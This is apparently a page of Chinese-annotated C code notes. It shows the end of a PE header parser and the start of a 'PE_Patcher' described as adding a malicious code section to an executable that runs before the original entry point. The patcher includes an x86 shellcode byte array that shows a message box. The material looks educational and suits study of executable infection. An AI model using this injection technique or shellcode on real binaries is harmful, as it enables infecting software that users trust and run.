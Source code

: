 ```c
		printf("[+] Dynamic EntryPoint @ %p\n", optHdr->ImageBase + optHdr->AddressOfEntryPoint); //main入口
	}

	// 节区头信息读取
	puts("[+] Section Info");
	IMAGE_SECTION_HEADER* sectHdr = (IMAGE_SECTION_HEADER *)((size_t)ntHdrs + sizeof(*ntHdrs));//第一个节区指针
	for (size_t i = 0; i < ntHdrs->FileHeader.NumberOfSections; i++)
		printf("\t#%.2x - %8s - %.8x - %.8x \n", i, sectHdr[i].Name, sectHdr[i].PointerToRawData, sectHdr[i].SizeOfRawData);
}   //节区头名，在文件中起始位置，节区对应模块实际大小
int main(int argc, char** argv){
    char* binaryData; DWORD binarySize;
	if (argc != 2)
		puts("[!] usage: peParser.exe [path/to/exe]");
	else if (readBinFile(argv[1], binaryData, binarySize)) {
		printf("[+] try to parse PE binary @ %s\n", argv[1]);
		peParser(binaryData);
	}
	else puts("[!] read file failure.");
    return 0;
}
```

+ 编译的时候可能gcc可能会因为new函数而找不到合适链接器，可以使用g++或者gcc添加指定链接器`-lstdc++`
+ 文件为cmd传参

## PE_Patcher

> 在文件上新加恶意代码区段，并加入op前执行

```c
#include"iostream"
#include"windows.h"

#pragma warning(disable:4996)
//对常用表达式进行取别名：文件头，段地址，对齐+1代表始终多分配一个对齐位
#define getNtHdr(buf) ((IMAGE_NT_HEADERS *)((size_t)buf + ((IMAGE_DOS_HEADER *)buf)->e_lfanew))
#define getSectionArr(buf) ((IMAGE_SECTION_HEADER *)((size_t)getNtHdr(buf) + sizeof(IMAGE_NT_HEADERS)-0x10)) //减10是因为使用参数文件为32为，但电脑为64位，可选头结构会大10 
#define P2ALIGNUP(size, align) ((((size) / (align)) + 1) * (align)) //向上对齐

//需要注入shellcode码,意思是弹出broken byte的弹窗
char x86_nullfree_msgbox[] =
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42"
"\x08\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03"
"\x78\x3c\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b"
"\x34\xaf\x01\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e"
"\x08\x45\x78\x69\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c"
"\x6f\x8b\x7a\x1c\x01\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x79\x74"
"\x65\x01\x68\x6b\x65\x6e\x42\x68\x20\x42\x72\x6f\x89\xe1\xfe"
"\x49\x0b\x31\xc0\x51\x50\xff\xd7";

//读取文件二进制码
bool readBinFile(const char *filename,char **bufPtr,DWORD &length){
    if(FILE* fp=fopen(filename,"rb")){
        fseek(fp,0,SEEK_END);
        length =ftell(fp);
        *bufPtr =new char[length +1]; //char **为二级指针，经常用来表示指向一个字符串数组
        fseek(fp,0,SEEK_SET);
        fread(*bufPtr,sizeof(char),length,fp);
        return true;
    }
```